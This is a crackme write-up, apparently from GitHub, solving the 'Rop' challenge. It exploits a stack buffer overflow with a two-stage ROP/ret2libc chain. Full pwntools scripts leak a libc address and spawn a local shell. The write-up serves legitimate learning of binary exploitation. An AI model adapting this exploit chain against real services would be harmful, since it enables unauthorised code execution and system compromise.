


# Rop made by BitFriends
[You can find it here](https://crackmes.one/crackme/5f3d7ed033c5d42a7c667d95)

After running the program it's waiting for user input. When we provide any input the program displays "Hello World!".

```plain
# ./rop 
Input: test
Hello World!
```

Our goal is to get a shell. Take a look at IDA.

This is a main function:



We have 3 function calls here. The "input" function is interesting:




The most important part is here:

```nasm
sub     rsp, 40h
```

The program allocates a local array of 64 bytes.
Then according to the [x86 calling convention](https://en.wikipedia.org/wiki/X86_calling_conventions) _read's arguments are stored in appropriate registers:

```nasm
lea     rax, [rbp+buf]  ; load addres of local array to rax
mov     edx, 280h       ; load amount of characters which have to be read to edx
mov     rsi, rax        ; copy adres from rax to rsi
mov     edi, 0          ; set file descriptor (0 means a standard input)
mov     eax, 0          ; clear rax (in rax _read error code will be stored)
call    _read
nop
```

Before the retn instruction threre is the leave instruction. Leave destroys function stack frame, so this is the shorter version of:

```nasm
mov rsi, rbp
pop rbp
```

When retn is executed (and we didn't make a mess), control flow backs to the main function which prints "Hello World".

During _read call the stack looks like this:


```plain
                                Lower addresses

                         +--------------------------------+
                         |                                |
                         | return address (8 bytes)       |
                         |                                |
                         +--------------------------------+
                         |                                |
                         | saved rbp (8 bytes)            |
               ^         |                                |
               |         +--------------------------------+
stack overflow |         |                                |
direction      |         | local array (64 bytes)         |
               |         |                                |
               |         |                                |
               +         +--------------------------------+

                                Higher addresses

```

In order to hit return address our payload have to overwrite 72 bytes.

Since the program stack is not executable (NX enabled) we need to use the ROP and ret2libc techniques to spawn a shell:

```plain
# checksec rop
[*] '/home/Falcon/IT/RE/Rop/rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

What is more this challenge requires the ASLR to be enabled so here it is:

```plain
# cat /proc/sys/kernel/randomize_va_space 
2

# ldd rop
	linux-vdso.so.1 (0x00007ffcc53be000)
	libc.so.6 => /lib64/libc.so.6 (0x00007f968c313000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f968c4fe000)
# ldd rop
	linux-vdso.so.1 (0x00007ffcfe735000)
	libc.so.6 => /lib64/libc.so.6 (0x00007fe626b3e000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fe626d29000)
```

To spawn a shell, I will call system("/bin/sh"). 
To call system("/bin/sh") following steps are required:
* overwrite 72 bytes
* overwrite return address with rop_gadget
* place address to "/bin/sh" string on the stack
* place system address on the stack
* place exit address on the stack

In order to pass "/bin/sh" string to system, the string address must be placed in rdi. The "/bin/sh" string address will be stored on stack so we have to pop it.
Let's use ROPgadget:

```plain
# ROPgadget --binary ./rop | grep "pop rdi"
0x0000000000400613 : pop rdi ; ret
```

This is exactly what we need.

Since ALSR is on, the libc address will be different each time the program is started. This means that the address of the system function and the "/bin/sh" string will be different.
So our first task is to gain current libc address.

## Leaking the libc address

The program uses write function from libc and we also use this function to leak the libc address.

write offset in GOT table:

```plain
# objdump -R rop

rop:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
0000000000600ff0 R_X86_64_GLOB_DAT  __libc_start_main@GLIBC_2.2.5
0000000000600ff8 R_X86_64_GLOB_DAT  __gmon_start__
0000000000601018 R_X86_64_JUMP_SLOT  write@GLIBC_2.2.5
0000000000601020 R_X86_64_JUMP_SLOT  read@GLIBC_2.2.5
```

write offset in PLT table:

```plain
# objdump -d -M intel rop | grep "write@plt"
0000000000400430 <write@plt>:
  400551:	e8 da fe ff ff       	call   400430 <write@plt>
  400576:	e8 b5 fe ff ff       	call   400430 <write@plt>

```

What we want to do here is to load the address of a write function from GOT table to rdi and then print that address by calling the write function.

This is a write function:

```c
ssize_t write(int fd, const void *buf, size_t liczba);
``` 

We got three arguments:
* rdi - fd (file descriptor)
* rsi - address of string to print
* rdx - amount of character to write

Let's look for gadgets:

```plain
# ROPgadget --binary rop | grep -E 'pop rsi|pop rdx' 
0x0000000000400611 : pop rsi ; pop r15 ; ret
```

In the binary there is only rsi gadget so we cant set rdx. However rdx was set to 0x280 before the first write call here:

```nasm
lea     rax, [rbp+buf]  ; load addres of local array to rax
mov     edx, 280h       ; load amount of characters which have to be read to edx
mov     rsi, rax        ; copy adres from rax to rsi
mov     edi, 0          ; set file descriptor (0 means a standard input)
mov     eax, 0          ; clear rax (in rax _read error code will be stored)
call    _read
nop
```

So we only need to load proper values to rdi and rsi.

The first payload will contain:
* 'A'*72 
* address of rdi gadget
* 0x1 (file descriptor for write)
* address of rsi gadget
* write offset in GOT (this will point to the write address in libc)
* 0x0 (rsi gadget contains pop r15 instruction so we have to place some garbage on stack for r15)
* write offset in PLT (this will point to the write call)
* address of a main function (if we rerun the program, the libc address will be changed so we have to jump to start of the main function)

Here is python code for part one:

```python
#!/bin/python
from pwn import *

context.log_level = 'debug'
context.terminal  = ['tilix', '-a', 'session-add-right','-e']

# Stage 1 data
main_address = 0x400537
write_address_got = 0x601018
write_plt = 0x400430

# Gadgets
rdi_gadget = 0x400613
rsi_gadget = 0x400611

proc = process('./rop')

log.info("Stage one")
# Input str
log.info("Receive input")
proc.recv(7)

payload = b'A'*72 + p64(rdi_gadget) + p64(0x1) + p64(rsi_gadget)+ p64(write_address_got) + p64(0x0) + p64(write_plt) + p64(main_address)

#gdb.attach('rop')

log.info("Send payload")
proc.send(payload)

log.info("Receiving write address")
# Take only 8 bytes (this will be write address in libc)
leaked_address = proc.recv(8)
write_libc_address = u64(leaked_address)

log.info(f"write address in libc: {hex(write_libc_address)}")

proc.close()
```

## Calculating the libc address

Now when we got a write address we need a libc address.
The libc address can be easily calculated:

```plain
libc_address = obtained_write_address - write_libc_offset
```

Finding write offset in libc:

```plain
# objdump -d -M intel /lib64/libc.so.6 | grep "<__write>:"
00000000000f2520 <__write>:
```

## Obtaining the rest of addresses

When we got the libc address we can calculate the rest addresses:

```plain
system_libc = libc_address + system_libc_offset
bin_sh_libc = libc_address + bin_sh_libc_offset
exit_libc = libc_address + exit_libc_offset
```

Required offsets:

```plain
# objdump -d -M intel /lib64/libc.so.6 | grep "libc_system"
0000000000049e4a <.annobin___libc_system.start>:
0000000000049e50 <__libc_system>:
   49e57:	74 07                	je     49e60 <__libc_system+0x10>
0000000000049e7d <.annobin___libc_system.end>:

#objdump -d -M intel /lib64/libc.so.6 | grep "<exit>:"
000000000003f530 <exit>:

# strings -tx /lib64/libc.so.6 | grep /bin/sh
 18f143 /bin/sh
```

# Spawning a shell

The second payload:
* 'A'*72 
* address of rdi gadget
* address of "/bin/sh" string
* address of system
* address of exit

```python
#!/bin/python
from pwn import *

# Stage 1 data
main_address = 0x400537
write_address_got = 0x601018
write_plt = 0x400430

# Gadgets
rdi_gadget = 0x400613
rsi_gadget = 0x400611

#libc offsets
write_libc_offset = 0xf2520
system_libc_offset = 0x49e50
sh_libc_offset = 0x18f143#0x18f148
exit_libc_offset = 0x3f530

proc = process('./rop')

log.info("Stage one")
log.info("Receive input")
proc.recv(7)

payload = b'A'*72 + p64(rdi_gadget) + p64(0x1) + p64(rsi_gadget)+ p64(write_address_got) + p64(0x0) + p64(write_plt) + p64(main_address)

log.info("Send first payload")
proc.send(payload)

log.info("Receiving write address")
leaked_address = proc.recv(8)
write_libc_address = u64(leaked_address)

log.info(f"write address in libc: {hex(write_libc_address)}")
libc_address = write_libc_address - write_libc_offset

# Calculate required addresses
system_libc_address = libc_address + system_libc_offset
sh_libc_address = libc_address + sh_libc_offset
exit_libc_address = libc_address + exit_libc_offset

log.info(f"system address in libc: {hex(system_libc_address)}")
log.info(f"sh address in libc: {hex(sh_libc_address)}")

log.info("Stage two")

shellcode = b'A'*72 + p64(rdi_gadget) + p64(sh_libc_address) + p64(system_libc_address) + p64(exit_libc_address)


log.info("Send second payload")
proc.send(shellcode)
proc.recv()

log.info("Shell spawned")
proc.interactive()
```

```plain
[+] Starting local process './rop' argv=[b'./rop'] : pid 7815
[*] Stage one
[*] Receive input
[DEBUG] Received 0x7 bytes:
    b'Input: '
[*] Send first payload
[DEBUG] Sent 0x80 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  13 06 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000050  01 00 00 00  00 00 00 00  11 06 40 00  00 00 00 00  │····│····│··@·│····│
    00000060  18 10 60 00  00 00 00 00  00 00 00 00  00 00 00 00  │··`·│····│····│····│
    00000070  30 04 40 00  00 00 00 00  37 05 40 00  00 00 00 00  │0·@·│····│7·@·│····│
    00000080
[*] Receiving write address
[DEBUG] Received 0x287 bytes:
    00000000  20 e5 23 3a  07 7f 00 00  80 e4 23 3a  07 7f 00 00  │ ·#:│····│··#:│····│
    00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    00000280  49 6e 70 75  74 3a 20                               │Inpu│t: │
    00000287
[*] write address in libc: 0x7f073a23e520
[*] system address in libc: 0x7f073a195e50
[*] sh address in libc: 0x7f073a2db143
[*] Stage two
[*] Send second payload
[DEBUG] Sent 0x68 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000040  41 41 41 41  41 41 41 41  13 06 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000050  43 b1 2d 3a  07 7f 00 00  50 5e 19 3a  07 7f 00 00  │C·-:│····│P^·:│····│
    00000060  30 b5 18 3a  07 7f 00 00                            │0··:│····│
    00000068
[*] Shell spawned
[*] Switching to interactive mode
$ echo $0
[DEBUG] Sent 0x8 bytes:
    b'echo $0\n'
[DEBUG] Received 0x8 bytes:
    b'/bin/sh\n'
/bin/sh
$ cat Foo.txt
[DEBUG] Sent 0xc bytes:
    b'cat Foo.txt\n'
[DEBUG] Received 0x11 bytes:
    b'You can read me!\n'
You can read me!
$ sl
[DEBUG] Sent 0x3 bytes:
    b'sl\n'
[DEBUG] Received 0x2f bytes:
    b'/bin/sh: linia 3: sl: nie znaleziono polecenia\n'
/bin/sh: linia 3: sl: nie znaleziono polecenia
$  
```

Used tools:
* Ida Freeware 7.0
* GDB
* pwntools
* ROPgadget